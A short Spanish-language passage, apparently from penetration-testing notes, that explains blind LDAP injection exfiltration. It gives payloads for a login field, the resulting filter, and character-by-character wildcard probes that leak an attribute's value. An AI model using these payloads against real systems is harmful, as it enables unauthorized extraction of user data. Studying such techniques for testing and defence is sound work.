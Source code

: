 ### Tecnica de exfiltración
Funciona igual que las BLIND SQLI. Necesitaremos que la página haga un cambio para poder conocer el acierto.

Podemos utilizar el wildcard dentro de un universaly true para poder exfiltrar datos de un atributo mediante blind exploitation:

    user)(|(description=*          invalid)

Esto dejaría la query de la siguiente manera:

    (&(uid=user)(|(description=*)(password=invalid)))

De esta manera, si el user tuviera el atributo description asignado podríamos exfiltrar caracter a caracter de manera iterativa el valor del atributo:

    user)(|(description=a*          invalid)
    user)(|(description=ab*          invalid)
    user)(|(description=abc*          invalid)

